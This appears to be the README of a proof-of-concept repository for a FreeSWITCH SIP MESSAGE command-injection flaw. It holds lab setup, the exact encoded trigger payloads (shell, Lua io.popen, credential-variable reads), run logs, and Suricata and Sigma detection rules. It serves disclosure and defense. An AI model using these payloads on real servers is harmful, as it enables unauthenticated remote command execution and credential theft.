

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> ·
  <a href="#the-trigger">PoC</a> ·
  <a href="#detection-rules">Detection</a> ·
  <a href="#capture">Capture</a> ·
  <a href="#evidence">Evidence</a> ·
  <a href="https://blog.al4n4n.com/CVE-2026-116779-FreeSWITCH-SIP-MESSAGE-Command-Execution/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-116779: FreeSWITCH command execution through the `api` chat proto of a SIP MESSAGE

**CWE-77, CWE-78, CWE-749** | Command injection through an exposed dangerous method | SignalWire FreeSWITCH 1.11.2 and earlier | Inbound SIP MESSAGE on any chat-enabled profile (AV:N)

This repository reproduces CVE-2026-116779 with a single-file Python PoC that speaks SIP itself (no SIP library), a lab that builds FreeSWITCH 1.11.2 and 1.11.3 from the upstream tags, a live capture and experimental detection rules, plus four findings the trigger alone does not show (below). The advisory discloses command execution with the privileges of the FreeSWITCH process through an inbound SIP MESSAGE: arbitrary OS commands, disclosure of configuration and credentials, and full call control, exploited in the wild. Demonstrated here: one SIP MESSAGE runs an OS command as the service user on 1.11.2 and the output comes back over SIP, no secret used, while 1.11.3 answers `403 Forbidden`; configuration files, call control and UDP were not attempted.

- **No secret on a vanilla install.** The stock directory ships a user `default` with no password, and it passes MESSAGE auth.
- **Three API commands, one hole.** `system`, `global_getvar` and inline `lua` all returned output.
- **The `external` profile executes blind.** The command runs; no output reaches the sender.
- **No log line.** A successful run leaves nothing in the stock `freeswitch.log`.

**Author:** al4n4n (Dadb0d)<br>
**Write-up:** [blog.al4n4n.com/CVE-2026-116779-FreeSWITCH-SIP-MESSAGE-Command-Execution/](https://blog.al4n4n.com/CVE-2026-116779-FreeSWITCH-SIP-MESSAGE-Command-Execution/)<br>
**Fixed in:** FreeSWITCH 1.11.3 (fix commit `7015f6a73ab3d67fed5fbfc277ecfb88a74c2a86`, PR #3135)

---

## The bug

FreeSWITCH hands instant messages to chat interfaces that modules register by name. For an inbound SIP MESSAGE, `sofia_presence_handle_sip_i_message()` (`mod_sofia/sofia_presence.c:4751`, tag `v1.11.2`) splits the To header's user part at the first `+` (`:4874`). The left half becomes `proto`, the right half the address, and `:5018` calls `switch_core_chat_send(proto, event)`. Nothing in between limits which interface a peer may name.

`mod_dptools` registers one called `api` (`mod_dptools.c:6618`). Its handler `api_chat_send()` URL-decodes the address, splits it at the first space, calls `switch_api_execute(cmd, arg, NULL, &stream)` (`:4707`) and sends the output back over the `sip` chat interface to the sender (`:4710`). The `system` API command (`mod_commands.c:6597`) runs its argument in a shell, so a MESSAGE to `api+system%20id` runs `id` and returns the result.

The fix (`v1.11.3`, `sofia_presence.c:4882`) sits right after the split: if `proto` is `api` and the profile lacks the new flag `PFLAG_ENABLE_CHAT_API_PROTO`, the handler logs a warning and answers `403 Forbidden`. The flag comes from the profile parameter `enable-chat-api-proto`, off unless set.

## Trigger conditions

1. A SIP MESSAGE reaches a profile with chat enabled, the default on `internal` and `external`.
2. The sender passes MESSAGE auth, on by default. The vanilla user `default` has no password, so `sofia_reg_parse_auth()` returns `AUTH_OK` for it. An ordinary account works too.
3. The user part of the **To header** starts with `api+`. The Request-URI does not decide this. The compare ignores case and runs after sofia-sip unescapes the user part.
4. To get the output back, the sender must be registered on the `internal` profile under its From address, where the reply is looked up (`sofia_presence.c:216`). Without that the command still runs and the reply is dropped.

All of this is stock. Nothing was switched on for the lab.

## Tested on

| Product version | Host OS | Arch | Date (UTC) | Result |
|---|---|---|---|---|
| FreeSWITCH 1.11.2 (vulnerable), tag `v1.11.2`, commit `3f13ad1b1d323e435757fc43a2bb829d4ea5b9a8`, `internal` profile | Ubuntu 24.04, Docker 29.9.2, Debian bookworm container. Scripts run from macOS 26.6.2 (arm64) through the ssh port-forward | x86_64 | 2026-11-14 | command output returned, 5/5 rounds |
| the same build, `external` profile | same | x86_64 | 2026-11-14 | MESSAGE accepted, command ran blind, no output returned |
| FreeSWITCH 1.11.3 (patched), tag `v1.11.3`, commit `ef32e205295e29f034f1453ad245ba5efb07b94a`, `internal` and `external` profiles | same | x86_64 | 2026-11-14 | `403 Forbidden`, nothing ran |

Affected per advisory: FreeSWITCH 1.11.2 and earlier, fixed in 1.11.3. Tested by us: the rows above.

## Lab deviations

| Deviation | Why | Effect on real-world exploitability |
|---|---|---|
| Built from source in a Debian bookworm container; `make install` lays down the vanilla configuration | No official FreeSWITCH image was found | None. This is the documented source install |
| `mod_av`, `mod_signalwire` and `mod_verto` are not built. The stock `modules.conf.xml` still lists them, so the target logs a load error | They need ffmpeg, libks and signalwire-c | None for this bug: `mod_sofia`, `mod_dptools`, `mod_commands` and `mod_lua` are unmodified. The sibling `mod_verto` fix (`f390069308`, PR #3136) cannot be tested in this lab |
| `vars.xml`: `external_rtp_ip` and `external_sip_ip` changed from `stun:stun.freeswitch.org` to `$${local_ip_v4}` | Keeps the lab from contacting a third-party STUN server at start-up | None on the bug. Real deployments set a fixed address here too |
| FreeSWITCH runs as user `freeswitch` (`-u freeswitch -g freeswitch`) | The distribution packages do the same | The commands run as `freeswitch` (uid 999). A source install started as root would run them as root |
| Start flag `-nonat` | Stops NAT-PMP and UPnP probing | None |
| Docker bridge network; only SIP over TCP is published, on `127.0.0.1`, and reached through an ssh port-forward | Keeps the vulnerable service off the LAN; ssh forwards TCP only | The PoC uses TCP. Stock FreeSWITCH listens on UDP and TCP on the same ports. A UDP exploit run was not made |
| Sound and music files are not installed | Not needed | None |
| `tcpdump` is installed in the image | The capture runs in a sidecar container that shares the target's network namespace | None |
| Debian packages are not pinned by version | They float inside bookworm at the pinned base image digest | None expected. FreeSWITCH, sofia-sip and spandsp are pinned by commit and the build fails on a mismatch |

## Files

| File | Purpose |
|---|---|
| `setup.py` | Lab: builds FreeSWITCH 1.11.2 and 1.11.3 from the upstream tags in Docker, starts both, prints versions, reads logs and marker files, takes captures, tears down |
| `check.py` | Version check with one unauthenticated SIP `OPTIONS`. Sends no MESSAGE and runs nothing on the target |
| `poc.py` | The one trigger: OPTIONS, REGISTER, the MESSAGE, and the reply with the command output. `--rounds N`, `--api`, `--user`, `--password` |
| `capture/exploit.pcap` | Live capture of PoC run `5cdca241` against 1.11.2 |
| `capture/README.md` | Capture point, checksum, packet-by-packet table |
| `detection/cve-2026-116779.rules` | Three experimental Suricata rules |
| `detection/cve-2026-116779-log.yml` | One experimental Sigma rule for `freeswitch.log` |
| `detection/README.md` | Rule documentation, limits and test commands |
| `detection/tests/` | Benign fixture `benign.pcap`, the script that produced it, and the Sigma logic tester |
| `evidence/INDEX.md` | Every evidence file with its command, exit code and the claim it supports |
| `evidence/` | Raw output of every run quoted in this README, and the targets' logs |
| `evidence/detection/` | Raw output of the rule validation and rule test runs |
| `README.md`, `LICENSE`, `poster.png`, `.gitignore` | This file, MIT license with attribution, poster, ignore rules |

## Repository structure

```
CVE-2026-116779/
├── LICENSE
├── README.md
├── capture
│   ├── README.md
│   └── exploit.pcap
├── check.py
├── detection
│   ├── README.md
│   ├── cve-2026-116779-log.yml
│   ├── cve-2026-116779.rules
│   └── tests
│       ├── benign.pcap
│       ├── send_benign_message.py
│       └── sigma_test.py
├── evidence
│   ├── INDEX.md
│   ├── check-patched-udp.txt
│   ├── check-patched.json
│   ├── check-patched.txt
│   ├── check-vulnerable-udp.txt
│   ├── check-vulnerable.json
│   ├── check-vulnerable.txt
│   ├── detection
│   │   ├── sigma-check.txt
│   │   ├── sigma-test-patched.txt
│   │   ├── sigma-test-vulnerable-external.txt
│   │   ├── sigma-test-vulnerable.txt
│   │   ├── suricata-benign.txt
│   │   ├── suricata-exploit.txt
│   │   └── suricata-validate.txt
│   ├── freeswitch-patched.log
│   ├── freeswitch-vulnerable-after-external.log
│   ├── freeswitch-vulnerable.log
│   ├── poc-patched-api-getvar.txt
│   ├── poc-patched-external.txt
│   ├── poc-patched.txt
│   ├── poc-vulnerable-api-getvar.txt
│   ├── poc-vulnerable-api-lua.txt
│   ├── poc-vulnerable-external.txt
│   ├── poc-vulnerable-rounds5.txt
│   ├── poc-vulnerable-user1000.txt
│   ├── poc-vulnerable.txt
│   ├── setup.txt
│   ├── target-marker-patched.txt
│   ├── target-marker-vulnerable-after-external.txt
│   └── target-marker-vulnerable.txt
├── poc.py
├── poster.png
└── setup.py
```

Not in the tree: `.gitignore`.

## Usage

Prerequisites:

- Python 3, standard library only.
- Docker on a Linux x86_64 host: local by default, or over ssh with `--lab-host user@host` (or `LAB_HOST`), which also opens a port-forward so the targets stay at `127.0.0.1`. Every run in `evidence/` used the ssh mode; local mode has no evidence file.
- About 3 GB of disk and network access for the first build, which took 150 s and 90 s for the two images on a 16-core host.

Commands and expected output:

```
python3 setup.py                                     # version lines for 1.11.2 and 1.11.3, then "Lab is up."
python3 check.py --target 127.0.0.1:15060            # VERDICT: VULNERABLE, exit 0
python3 check.py --target 127.0.0.1:25060            # VERDICT: NOT VULNERABLE, exit 1
python3 poc.py --target 127.0.0.1:15060              # output of `id; hostname`, a marker, RESULT: VULNERABLE, exit 0
python3 poc.py --target 127.0.0.1:25060              # SIP/2.0 403 Forbidden, RESULT: impact NOT observed, exit 1
python3 poc.py --target 127.0.0.1:15060 --rounds 5   # Rounds with command output returned: 5/5
python3 setup.py --proof vulnerable                  # the marker files the commands wrote in /tmp, owner freeswitch
python3 poc.py --target 127.0.0.1:15080              # external profile of 1.11.2: 202 Accepted, no output, exit 1
python3 poc.py --target 127.0.0.1:15060 --api "global_getvar default_password"   # another API command: 1234, exit 0
python3 setup.py --down                              # teardown; add --purge to remove the two images
```

## Check (non-destructive)

`check.py` sends one `OPTIONS` with no credentials and reads the version from the `User-Agent` of the answer (`evidence/check-vulnerable.txt`, `evidence/check-patched.txt`):

```
[*] Target:  127.0.0.1:15060/tcp
[*] Answer:  SIP/2.0 200 OK
[*] Banner:  FreeSWITCH-mod_sofia/1.11.2-release+git~20260809T162310Z~3f13ad1b1d~64bit
[*] MESSAGE listed in Allow: yes
VERDICT: VULNERABLE to CVE-2026-116779 (confidence: medium). Version 1.11.2 is below the fixed release 1.11.3; whether chat is enabled and an account is usable was not tested. Exit 0.
```

```
[*] Target:  127.0.0.1:25060/tcp
[*] Answer:  SIP/2.0 200 OK
[*] Banner:  FreeSWITCH-mod_sofia/1.11.3-release+git~20260828T204948Z~ef32e20529~64bit
[*] MESSAGE listed in Allow: yes
VERDICT: NOT VULNERABLE to CVE-2026-116779 (confidence: medium). Version 1.11.3 has the fix; a profile with enable-chat-api-proto=true would still run API commands by design, which this check cannot see. Exit 1.
```

The confidence is never "high": the verdict rests on the banner. The check cannot see a changed `user-agent-string`, whether chat is enabled, whether an account is usable, or `enable-chat-api-proto=true` on a fixed build. No behavioural probe was built, because one that reaches the fix has to hand an API command name to `switch_api_execute()`.

## The trigger

`poc.py` uses one TCP connection: `OPTIONS` for the banner and the SIP domain, `REGISTER` as `default` with an empty password so the server has a contact for the output, then the MESSAGE. The command is benign, `id; hostname; echo <marker>`, and the marker holds a product that only a shell on the target computes. Run `5cdca241` (`evidence/poc-vulnerable.txt`):

```
[*] CVE-2026-116779 PoC, run id 5cdca241
[*] Target 127.0.0.1:15060, SIP over TCP
[...]
[*] Banner: FreeSWITCH-mod_sofia/1.11.2-release+git~20260809T162310Z~3f13ad1b1d~64bit
[*] SIP domain: 172.31.79.12 (from the Contact of the OPTIONS answer)
[...]
[*] Registered. The server sees this client as 172.31.79.1:51198

[3] Round 1/1, the trigger. MESSAGE to the `api` chat proto
[*] API command the To user decodes to: system id; hostname; echo cve-2026-116779-5cdca241-$((9260*3427)) | tee /tmp/cve-2026-116779-5cdca241.txt
    > MESSAGE sip:api+system%20id%3B%20hostname%3B%20echo%20cve%2D2026%2D116779%2D5cdca241%2D%24%28%289260%2A3427%29%29%20%7C%20tee%20%2Ftmp%2Fcve%2D2026%2D116779%2D5cdca241%2Etxt@172.31.79.12 SIP/2.0
[...]
    > From: <sip:default@172.31.79.12>;tag=382fba11
    > To: <sip:api+system%20id%3B%20hostname%3B%20echo%20cve%2D2026%2D116779%2D5cdca241%2D%24%28%289260%2A3427%29%29%20%7C%20tee%20%2Ftmp%2Fcve%2D2026%2D116779%2D5cdca241%2Etxt@172.31.79.12>
[...]
    < SIP/2.0 407 Proxy Authentication Required
[...]
    < SIP/2.0 202 Accepted
[...]
[*] The server answered the MESSAGE: SIP/2.0 202 Accepted

[4] Waiting up to 10.0s for the MESSAGE the server sends back
    < MESSAGE sip:default@172.31.79.1:51198;transport=tcp SIP/2.0
    < Via: SIP/2.0/TCP 172.31.79.12;branch=z9hG4bKg6t9tvD1eaBHH
    < Max-Forwards: 70
    < From: "system%20id;%20hostname;%20echo%20cve-2026-116779-5cdca241-$((9260*3427))%20%7C%20tee%20/tmp/cve-2026-116779-5cdca241.txt" <sip:api+system%20id;%20hostname;%20echo%20cve-2026-116779-5cdca241-$((9260*3427))%20%7C%20tee%20/tmp/cve-2026-116779-5cdca241.txt@172.31.79.12>;tag=Q9a5HXH21caea
    < To: "" <sip:default@172.31.79.1:51198;transport=tcp>
[...]
    < Content-Type: text/html
    < Content-Length: 111
    < X-FS-Sending-Message: 38aab9e8-7856-4fdc-93cd-cbb37b2f032b
    < 
    < uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
    < fs-vulnerable
    < cve-2026-116779-5cdca241-31734020

[+] Output of the API command, as returned by the target:
      uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
      fs-vulnerable
      cve-2026-116779-5cdca241-31734020
[+] 9260*3427=31734020 was computed by a shell on the target: marker cve-2026-116779-5cdca241-31734020 is present.
[+] The same marker was written on the target to /tmp/cve-2026-116779-5cdca241.txt

[5] REGISTER with Expires: 0, to remove the registration
[*] Unregister answered: SIP/2.0 200 OK

[*] Rounds with command output returned: 1/1
RESULT: VULNERABLE. OS command execution through SIP MESSAGE observed. Exit 0.
```

The first MESSAGE gets `407`; the second, with a Digest answer for `default`, gets `202 Accepted`. The server then sends a MESSAGE of its own, From the `api+` address, with the command output as body. Inside the target (`evidence/target-marker-vulnerable.txt`):

```
[*] Marker files inside cve-2026-116779-vulnerable:
-rw-r--r-- 1 freeswitch freeswitch 34 2026-11-14 12:39:34.453334370 +0000 /tmp/cve-2026-116779-5cdca241.txt
/tmp/cve-2026-116779-5cdca241.txt:cve-2026-116779-5cdca241-31734020
```

### Other API commands

`--api "global_getvar default_password"` returned the target's value, which is the stock one (`evidence/poc-vulnerable-api-getvar.txt`):

```
[*] API command the To user decodes to: global_getvar default_password
[...]
    < 1234

[+] Output of the API command, as returned by the target:
      1234
[+] The reply comes from the `api` chat proto (From: sip:api+...). No marker is checked with --api.
[...]
[*] Rounds with command output returned: 1/1
RESULT: VULNERABLE. FreeSWITCH API command execution through SIP MESSAGE observed. Exit 0.
```

Inline Lua through `mod_lua` reaches the standard library (`evidence/poc-vulnerable-api-lua.txt`):

```
[*] API command the To user decodes to: lua ~stream:write(_VERSION .. ' ' .. io.popen('id'):read('*a'))
[...]
    < Lua 5.2 uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)

[+] Output of the API command, as returned by the target:
      Lua 5.2 uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
[+] The reply comes from the `api` chat proto (From: sip:api+...). No marker is checked with --api.
[...]
[*] Rounds with command output returned: 1/1
RESULT: VULNERABLE. FreeSWITCH API command execution through SIP MESSAGE observed. Exit 0.
```

An ordinary account does the same: `--user 1000 --password 1234`, a stock user and password, returned the command output (`evidence/poc-vulnerable-user1000.txt`).

### The external profile runs the command blind

On port 15080, the `external` profile of 1.11.2, the MESSAGE is accepted and nothing comes back, so `poc.py` reports no impact (`evidence/poc-vulnerable-external.txt`):

```
[*] The server answered the MESSAGE: SIP/2.0 202 Accepted

[4] Waiting up to 10.0s for the MESSAGE the server sends back
[-] The MESSAGE was accepted but no output came back on this connection.
    The command can still have run blind. The output is routed through the internal
    profile's registrations, so a trigger sent to another profile gets no reply.
[...]
[*] Rounds with command output returned: 0/1
RESULT: impact NOT observed. Exit 1.
```

The command ran anyway. The marker file of that run, `1a507843`, exists on the target (`evidence/target-marker-vulnerable-after-external.txt`), and the target logged the reply it could not deliver (`evidence/freeswitch-vulnerable-after-external.log`, lines 1237 to 1245):

```
2026-11-14 12:40:34.282469 99.73% [WARNING] sofia_presence.c:221 Not sending to local box for default@172.31.79.12
2026-11-14 12:40:34.282469 99.73% [ERR] sofia_presence.c:272 Chat proto [api]
from ["system%20id;%20hostname;%20echo%20cve-2026-116779-1a507843-$((5709*5143))%20%7C%20tee%20/tmp/cve-2026-116779-1a507843.txt" <sip:api+system%20id;%20hostname;%20echo%20cve-2026-116779-1a507843-$((5709*5143))%20%7C%20tee%20/tmp/cve-2026-116779-1a507843.txt@172.31.79.12>]
to [default@172.31.79.12]
uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
fs-vulnerable
cve-2026-116779-1a507843-29361387

Nobody to send to: Profile 172.31.79.12
```

This is proven on the target side only. To the sender the run looks like a miss.

That error is the only trace. After run `5cdca241`, with its delivered reply, `evidence/freeswitch-vulnerable.log` has no line about the MESSAGE or the command, under this lab's stock log settings.

## Negative control

The same `poc.py` against 1.11.3, run `b1d084f4` (`evidence/poc-patched.txt`):

```
[*] CVE-2026-116779 PoC, run id b1d084f4
[*] Target 127.0.0.1:25060, SIP over TCP
[...]
[*] Banner: FreeSWITCH-mod_sofia/1.11.3-release+git~20260828T204948Z~ef32e20529~64bit
[...]
[*] API command the To user decodes to: system id; hostname; echo cve-2026-116779-b1d084f4-$((3115*9321)) | tee /tmp/cve-2026-116779-b1d084f4.txt
[...]
    < SIP/2.0 403 Forbidden
[...]
[*] The server answered the MESSAGE: SIP/2.0 403 Forbidden
[-] 403: the profile refused the `api` chat proto. This is the fixed behaviour.

[5] REGISTER with Expires: 0, to remove the registration
[*] Unregister answered: SIP/2.0 200 OK

[*] Rounds with command output returned: 0/1
RESULT: impact NOT observed. Exit 1.
```

No marker file on the target (`evidence/target-marker-patched.txt`):

```
[*] Marker files inside cve-2026-116779-patched:
no marker file in /tmp
```

The fixed build logs the rejection (`evidence/freeswitch-patched.log`, line 1227):

```
2026-11-14 12:40:02.520553 99.73% [WARNING] sofia_presence.c:4884 Profile [internal] rejected a MESSAGE from default@172.31.79.13 (172.31.79.1:54348) addressed to the 'api' chat proto [system%20id;%20hostname;%20echo%20cve-2026-116779-b1d084f4-$((3115*9321))%20%7C%20tee%20/tmp/cve-2026-116779-b1d084f4.txt]. Set enable-chat-api-proto=true on the profile to permit it.
```

The `external` profile and a non-`system` API command get the same 403 (`evidence/poc-patched-external.txt`, `evidence/poc-patched-api-getvar.txt`).

## Reliability

5/5 rounds returned command output (`evidence/poc-vulnerable-rounds5.txt`):

```
[*] Rounds with command output returned: 5/5
RESULT: VULNERABLE. OS command execution through SIP MESSAGE observed. Exit 0.
```

The bug is a logic flaw with no race, so `--rounds` defaults to 1.

## Downstream impact and mitigation

The advisory names SignalWire FreeSWITCH. I have no list of downstream products and no figure on exposed installs, so none is given.

Update to 1.11.3 and leave `enable-chat-api-proto` unset: set to true, it makes a profile run API commands from MESSAGE by design. Removing the passwordless `default` user closes only the no-secret path, since any account that passes MESSAGE auth is enough. A target without that user, or with `allow-empty-password=false`, was not tested.

## Detection rules

**Experimental / minimally validated.** Each rule passed its validator (`sigma check`: no errors, two tag-format issues), fired on the canonical artifact and stayed quiet on one benign fixture. No payload variations were run and no false-positive rate was measured.

| Rule | Detects | Prerequisites |
|---|---|---|
| `detection/cve-2026-116779.rules` sid 1000001 | Inbound SIP MESSAGE with a literal `api+` in the To header | Plaintext SIP over TCP in view of the sensor |
| `detection/cve-2026-116779.rules` sid 1000002 | The same with `api%2B` | Same |
| `detection/cve-2026-116779.rules` sid 1000003 | Outbound reply MESSAGE with `X-FS-Sending-Message` and `api+` in the From header: a command ran and its output was sent | Same |
| `detection/cve-2026-116779-log.yml` (Sigma) | `freeswitch.log`: the rejection warning of a fixed build, or the undeliverable-reply error of a vulnerable build | A log shipper that maps each line to a `message` field |

Limits, in full in [`detection/README.md`](detection/README.md): the Suricata rules miss percent-encoded letters of `api` (for example `%61pi+`), which the server unescapes before it compares; they are TCP rules, and UDP variants were not tested; the Sigma rule cannot see a delivered-reply exploit on a vulnerable build, which leaves no log line.

The alerts on the exploit capture, in the sensor host's local time (`evidence/detection/suricata-exploit.txt`):

```
11/14/2026-04:39:34.445370  [**] [1:1000001:2] CVE-2026-116779 FreeSWITCH SIP MESSAGE api+ chat proto selector (inbound, literal) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.31.79.1:51198 -> 172.31.79.12:5060
11/14/2026-04:39:34.463877  [**] [1:1000003:2] CVE-2026-116779 FreeSWITCH reply MESSAGE with api chat proto output (outbound) [**] [Classification: Successful Administrator Privilege Gain] [Priority: 1] {TCP} 172.31.79.12:5060 -> 172.31.79.1:51198
11/14/2026-04:39:34.469408  [**] [1:1000001:2] CVE-2026-116779 FreeSWITCH SIP MESSAGE api+ chat proto selector (inbound, literal) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.31.79.1:51198 -> 172.31.79.12:5060
```

## Capture

[`capture/exploit.pcap`](capture/) is a live capture of run `5cdca241`: 28 packets, taken on `eth0` of the target's network namespace, sha256 `1ca9f8ad0667aac363d0fca18293a5b3468dcd17d09e664bf0ffc67cb11dfbab`. The trigger is packet 17, the impact is packet 20. [`capture/README.md`](capture/README.md) has the packet table.

```
suricata -r capture/exploit.pcap -S detection/cve-2026-116779.rules -k none     # 3 alerts: sid 1000001 x2, sid 1000003 x1
suricata -r detection/tests/benign.pcap -S detection/cve-2026-116779.rules -k none   # 0 alerts
```

## Evidence

[`evidence/INDEX.md`](evidence/INDEX.md) lists each file with its command, exit code and the claim it supports. The lab runs are from 2026-11-14; the Suricata checks and the Sigma validation were run again on 2026-11-15.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| OS command execution on 1.11.2 through `To: <sip:api+system%20...>`, output returned over SIP, no secret used | **Proven** | `evidence/poc-vulnerable.txt`, `evidence/target-marker-vulnerable.txt`, `capture/exploit.pcap` |
| 1.11.3 rejects the same MESSAGE with `403 Forbidden`, logs it, and nothing runs | **Confirmed** | `evidence/poc-patched.txt`, `evidence/freeswitch-patched.log` line 1227, `evidence/target-marker-patched.txt` |
| Other FreeSWITCH API commands run as well: `global_getvar default_password` returned the target's value | **Proven** | `evidence/poc-vulnerable-api-getvar.txt`; control `evidence/poc-patched-api-getvar.txt` (403) |
| Inline Lua through `mod_lua` with the standard library (`io.popen('id')`) | **Proven** | `evidence/poc-vulnerable-api-lua.txt` |
| An ordinary account works the same way (stock user `1000`, stock password) | **Proven** | `evidence/poc-vulnerable-user1000.txt` |
| `external` profile on 1.11.2: the MESSAGE is accepted and the command runs blind | **Proven** on the target side only; `poc.py` exits 1 for this run | `evidence/poc-vulnerable-external.txt`, `evidence/target-marker-vulnerable-after-external.txt`, `evidence/freeswitch-vulnerable-after-external.log` lines 1237-1245 |
| `external` profile on 1.11.3 answers `403 Forbidden` | **Confirmed** | `evidence/poc-patched-external.txt` |
| A successful exploit with a delivered reply leaves no line in the stock `freeswitch.log` | **Proven** for this lab's stock log settings | `evidence/freeswitch-vulnerable.log` |
| `check.py` tells 1.11.2 from 1.11.3 with one unauthenticated `OPTIONS`, over TCP and UDP | **Proven** | `evidence/check-vulnerable.txt`, `evidence/check-patched.txt` and the four sibling files |
| Disclosure of configuration files and credentials beyond one global variable; call control | **Not reached** | Not attempted. No run reads a configuration file or touches a call |
| Exploit over UDP | **Not reached** | Not attempted: the lab publishes TCP only |
| Output returned when the trigger goes to the `external` profile | **Not reached** | One run (`1a507843`): the reply is looked up in the `internal` profile's registrations and dropped. Registering on `internal` first and triggering on `external` was not tried |
| Exploit with no account at all (stock `default` user removed, or `allow-empty-password=false`) | **Not reached** | Not attempted |
| The `mod_verto` route (separate fix `f390069308`) | **Not reached** | `mod_verto` is not built in this lab |

- **Proven**: the evidence file is in the repo.
- **Confirmed**: the negative control was run.
- **Not reached**: not shown here, with what was tried. It does not mean not possible.

## References

| Reference | Link |
|---|---|
| Advisory GHSA-mg63-h38w-8p9p, CVSS 9.8 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`. Credits: Örn Arnarson (reporter), Gunnlaugur (analyst) | https://github.com/signalwire/freeswitch/security/advisories/GHSA-mg63-h38w-8p9p |
| CVE record | https://www.cve.org/CVERecord?id=CVE-2026-116779 |
| Fix commit `7015f6a73ab3d67fed5fbfc277ecfb88a74c2a86` (PR #3135) | https://github.com/signalwire/freeswitch/commit/7015f6a73ab3d67fed5fbfc277ecfb88a74c2a86 |
| Source trees used, tags `v1.11.2` and `v1.11.3` | https://github.com/signalwire/freeswitch/tree/v1.11.2 and https://github.com/signalwire/freeswitch/tree/v1.11.3 |
| CISA Known Exploited Vulnerabilities catalog, added 2026-11-09 | https://www.cisa.gov/known-exploited-vulnerabilities-catalog |

## Changelog

- 2026-11-14: first release.
- 2026-11-15: the Suricata alert messages now start with the CVE ID (a tag in front of it was removed), and the three rules are now rev 2. The Suricata checks were run again with the changed rules and gave the same result: 3 alerts on the exploit capture, none on the benign capture.

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).
